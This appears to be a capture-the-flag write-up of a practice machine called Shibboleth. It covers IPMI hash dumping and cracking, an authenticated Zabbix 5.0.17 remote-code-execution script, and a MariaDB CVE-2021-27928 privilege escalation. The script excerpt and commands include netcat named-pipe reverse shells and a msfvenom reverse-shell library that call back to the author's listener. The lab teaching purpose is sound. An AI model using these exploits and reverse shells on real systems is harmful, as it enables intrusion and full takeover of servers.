




# Zabbix box
*Creators: knightmare, mrb3n*

<br>
<br>
Summary:
<br>
Starting this box has open ports on tcp 80, and udp 623. I first started out
with enumerating the web server. There was an unfamiliar CMS running called bootstapmade,
with the FlexStart theme. Further enumeration I found some virtual hosts routing to a zabbix server
which is an open source tool to monitor IT infrastructure. Looking at the unusual UDP port, I found
it running the IPMI server which was vulnerable to the cipherzero exploit, this led to admin creds
for the zabbix server and an RCE. Priv esc involved password reuse on a vulnerable Mariadb instance,
that had a root RCE.
<br>

## Enumeration
I like to do a rustscan, and just scan those ports with nmap to save some time.
```bash
rustscan -a 10.10.11.124 > scans/rust.out
# results only show port 80...

nmap -sCV -oN -p 80 scans/nmap.out 10.10.11.124

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-30 00:26 EDT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.016s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: FlexStart Bootstrap Template - Index
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Running udp scan I find a asf-rmcp service
```bash
➜  Shibboleth sudo nmap -sU --min-rate=10000 --open 10.10.11.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-30 00:27 EDT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.018s latency).
Not shown: 993 open|filtered udp ports (no-response), 6 closed udp ports (port-unreach)
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

After some googling I find a IPMI service that runs on that port as well, and zabbix
uses IPMI to collect metrics about its servers. Pretty safe to assume at this point that
nmap is giving me a false positive and it is in fact IPMI on 623. Time to enumerate the findings.

  - [ ] Webserver on port 80
  - [ ] IPMI on UDP 623

## Webserver

Navigating to 10.10.11.124:80 I automatically get routed to shibboleth.htb which
gives my browser a 403 error. After adding this host to my /etc/hosts I could see the page.


<br>
Looks like a company home page for some development team. Looking around on the page I
couldn't find any XSS vectors. Running gobuster I found a changelog.txt file that game a version
of 1.2.0, and a Readme.txt saying pretty much flexstart is a template for bootstapmade CMS.
Doing some googling on that version I found some more information about this on the bootstapmade website.
<br>
<br>



<br>
Couldnt find any exploits for any of the versions this server was running.

### Vhost Enumeration

Running gobuster vhost gave me some good results. I found three shibboleth vhosts all redirecting
to a zabbix login page.

```bash
gobuster vhost http://shibboleth.htb -w /usr/share/wordlists/seclists/subdomain-top-1million -o scans/vhosts

Found: monitor.shibboleth.htb (Status: 200) [Size: 3689]
Found: monitoring.shibboleth.htb (Status: 200) [Size: 3689]
Found: zabbix.shibboleth.htb (Status: 200) [Size: 3689]

```


<br>
I tried sql injections, and event to capture a login post request so I can run it through sqlmap.
No results, I also tried the zabbix deafult creds, and some common credentials like admin:password,
zabbix:password, etc. Couldn't find any unauthenticated zabbix server exploits either, so this
is a dead end for now. Time to move on IPMI.
<br>
<br>

- [X] Webserver on port 80
- [ ] IPMI on UDP 623

## IPMI

IPMI is hardware solution that helps with managing servers, it
gives the ability to manage servers regardless of OS as well as many
other features. I found this article about a vulnerability in IPMI 2.0
that found a short coming in "cipher 0" which is an option that
is supposed to accept clear text authentication. In reality it allowed
access with any password. http://fish2.com/ipmi/cipherzero.html
<br>
<br>
Found the version with msf scanner..
```bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
<br>
Followed the steps in the article but couldnt get it to work for some reason.
I suspect this is because cipher zero only effected HP, Dell, and Supermicro BMCs machines. However, I saw a
ipmi dumphashes module in msf so gave that a go.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:3ab7363e8201000032afe9725acde3eb108ade145258f8378b20664f4724336c483d7fa84d69d46aa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:c88fb15445d8978726fbb5cb9ddf0d30907e9dfd
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

John was able to identify the hash and crack it with the rockyou wordlist.

```bash
➜  Shibboleth john admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)     
1g 0:00:00:00 DONE (2022-03-30 20:40) 1.562g/s 11673Kp/s 11673Kc/s 11673KC/s in_199..iargxe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
<br>
I tried to look into how I could log into the BMCs interface, through something like
an evil-winrm type of program. Unfortunately I couldnt find any way for me to remotely
connect to the BMC with these new found creds. Next I decided to try them on the zabbix
server maybe.
<br>
<br>

- [X] Webserver on port 80
- [X] IPMI on UDP 623

### Zabbix Server



First thing I noticed on the bottom of the page, Zabbix server version 5.0.17 so decided to throw that into searchsploit.
Luckily I found a authenticated RCE for that exact version, now I just had to customize the python script, and run it.

```bash
➜  Shibboleth searchsploit zabbix | grep "5.0.17"
Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)
```

```python
#!/usr/bin/python3

import sys
import requests
import re
import random
import string
import colorama
from colorama import Fore

def item_name() :
    letters = string.ascii_letters
    item =  ''.join(random.choice(letters) for i in range(20))
    return item

if len(sys.argv) != 1 :
    print(Fore.RED +"[!] usage : ./expoit.py")
    sys.exit(-1)

url  = '10.10.11.124'
username = 'Administrator'
password = 'ilovepumkinpie1'
host = '10.10.14.46' # Listening IP
port = 9090 # listening port

...
# I snipped out a bunch of the input validation code for this post, just to focus on the actual exploit
...

# named pipe netcat reverse shell... can sub this with a PS rev shell for windows hosts...
command=f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {host} {port}  >/tmp/f"

payload = f"system.run[{command},nowait]"
Random_name = item_name()
data2 ={

# exploit lies in uploading the reverse shell in the key field on the items.php page.

"sid":sid,"form_refresh":"1","form":"create","hostid":hostId,"selectedInterfaceId":"0","name":Random_name,"type":"0","key":payload,"url":"","query_fields[name][1]":"","query_fields[value][1]":"","timeout":"3s","post_type":"0","posts":"","headers[name][1]":"","headers[value][1]":"","status_codes":"200","follow_redirects":"1","retrieve_mode":"0","http_proxy":"","http_username":"","http_password":"","ssl_cert_file":"","ssl_key_file":"","ssl_key_password":"","interfaceid":"1","params_es":"","params_ap":"","params_f":"","value_type":"3","units":"","delay":"1m","delay_flex[0][type]":"0","delay_flex[0][delay]":"","delay_flex[0][schedule]":"","delay_flex[0][period]":"","history_mode":"1","history":"90d","trends_mode":"1","trends":"365d","valuemapid":"0","new_application":"","applications[]":"0","inventory_link":"0","description":"","status":"0","add":"Add"
}

r2 =s.post(url+"/items.php" ,data=data2,headers=headers,cookies={"tab":"0"} )

...
# cut out a bunch of extra unecessary code, all we have to do is run the new item we created at this location
# {url}/items.php?form=update&hostid={hostId}&itemid={itemId}

# Link to the full exploit: https://www.exploit-db.com/exploits/50816
```


This is what it looks like on the gui after the post happens. We can see clearly we are
creating a zabbix agent with a key of our reverse shell, on localhost. Clicking execute now
send a shell to my netcat listener sitting on 9090.



<br>
I did some shell upgrading with python and exporting TERM to give me some basic
shell features like clear screen or up arrow to run past commands.

```bash
➜  exploits rlwrap nc -nvlp 9090
listening on [any] 9090 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.11.124] 58344
sh: 0: can't access tty; job control turned off
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
export TERM=xterm-256color
zabbix@shibboleth:/$
[1]  + 19511 suspended  rlwrap nc -nvlp 9090
➜  exploits stty raw -echo; fg;                
[1]  + 19511 continued  rlwrap nc -nvlp 9090
zabbix@shibboleth:/$

```

I did some basic enumeration of the box checking sudo version, lsb_release for kernel exploits,
proccess infomation with ss -tulpn. Nothing was interesting, so I looked for other users
in /etc/passwd.

```bash
cat /etc/passwd | grep -vE "false|nologin"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
```

impi-svc user interesting... I just logged in the zabbix server with the ipmi credentials
I found earlier maybe there's some password reuse going on here and I can just su over.

```bash
su - ipmi-svc
ilovepumkinpie1

id
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
ipmi-svc@shibboleth:~$
```

Nice got onto ipmi-svc account, hopefully this account has some more juicy info that I can
try to exploit. I did find vulnerable version of polkit (CVE-2021-4034) however I'm not gonna
use it because, that's to easy and I dont think thats the intended root priv esc for this box. So
I tried the same exact enumeration I did earlier but now on this account, maybe would get different
results. Enumerating processes I found 3306 - mysql.

```bash
ss -tulpn
Netid  State   Recv-Q  Send-Q   Local Address:Port    Peer Address:Port Process
udp    UNCONN  0       0        127.0.0.53%lo:53           0.0.0.0:*            
udp    UNCONN  0       0            127.0.0.1:161          0.0.0.0:*            
udp    UNCONN  0       0              0.0.0.0:623          0.0.0.0:*            
udp    UNCONN  0       0                [::1]:161             [::]:*            
tcp    LISTEN  0       4096     127.0.0.53%lo:53           0.0.0.0:*            
tcp    LISTEN  0       4096           0.0.0.0:10050        0.0.0.0:*            
tcp    LISTEN  0       4096           0.0.0.0:10051        0.0.0.0:*            
tcp    LISTEN  0       869          127.0.0.1:3306         0.0.0.0:*            
tcp    LISTEN  0       4096              [::]:10050           [::]:*            
tcp    LISTEN  0       4096              [::]:10051           [::]:*            
tcp    LISTEN  0       511                  *:80                 *:*

mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2  
```

Quick google search of that finds CVE-2021-27928, and many different PoC's on github. The 
exploit looks relatively simple, but requires me to connect to the mysql shell.
Tried the pumpkinpie password with database of zabbix, and admin user and didnt work.
Looking around on the server I finally stumbled into a zabbix directory in /etc with some conf files.
I just did a grep -v "#" zabbix_server.conf  file to get rid of all the clutter
```bash
DBName=zabbix


DBUser=zabbix

DBPassword=bloooarskybluh

```
 Now just follow the steps in the CVE...and get onto root.
 ```bash
 ➜  www msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.46 LPORT=7070 -f elf-so -o a.so   
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: a.so
➜  www python -m http.server 80                                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.124 - - [30/Mar/2022 21:54:35] "GET /a.so HTTP/1.1" 200 -
```

Wget the file over into /tmp and log into mysql shell to finish the privesc

```bash
mysql --user zabbix -p zabbix
bloooarskybluh

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1761
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

SET GLOBAL wsrep_provider="/tmp/a.so";

```

```bash
➜  exploits nc -nvlp 7070
listening on [any] 7070 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.11.124] 41150
whoami
root
```
